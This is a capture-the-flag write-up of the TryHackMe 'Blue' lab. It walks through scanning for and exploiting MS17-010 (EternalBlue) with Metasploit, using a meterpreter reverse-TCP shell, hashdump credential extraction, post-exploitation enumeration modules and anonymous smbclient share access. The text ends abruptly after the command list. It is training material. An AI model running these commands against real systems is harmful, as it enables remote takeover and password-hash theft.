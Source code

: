 # TryHackMe: Blue (EternalBlue Exploit) Write-Up

## Introduction  
The **Blue** room on TryHackMe focuses on exploiting the **MS17-010** vulnerability, also known as **EternalBlue**. This critical security flaw affects Microsoft’s SMBv1 protocol, allowing remote attackers to execute arbitrary code and gain full control over vulnerable Windows systems.

This write-up details the process of scanning, exploiting, and post-exploitation steps performed to compromise the target machine, as well as lessons learned throughout the exercise.

---

## Tools Used  
- `nmap`: Network scanner for port and vulnerability detection.  
- `msfconsole`: Metasploit Framework for exploit execution.  
- `searchsploit`: Local database search for exploits.  
- `smbclient`: SMB share enumeration and access tool.

---

## Step 1: Reconnaissance and Vulnerability Scanning  
Begin by scanning the target machine to identify open SMB ports and verify if the EternalBlue vulnerability exists:

```bash
nmap -p 445 --script smb-vuln-ms17-010 <target-ip>

A positive detection confirms the target is vulnerable.

Step 2: Confirm Exploit Availability
Check your local exploit database for EternalBlue modules to ensure you have the tools ready:

2) searchsploit ms17-010

3) msfconsole

4) search eternalblue
use exploit/windows/smb/ms17_010_eternalblue

set RHOSTS <target-ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your-ip>
set LPORT 4444

exploit

4) sysinfo
   getuid
   hashdump

run post/windows/gather/enum_logged_on_users
run post/windows/gather/enum_patches
run post/windows/gather/enum_privs

smbclient -L //<target-ip> -N

smbclient //<target-ip>/ShareName -N






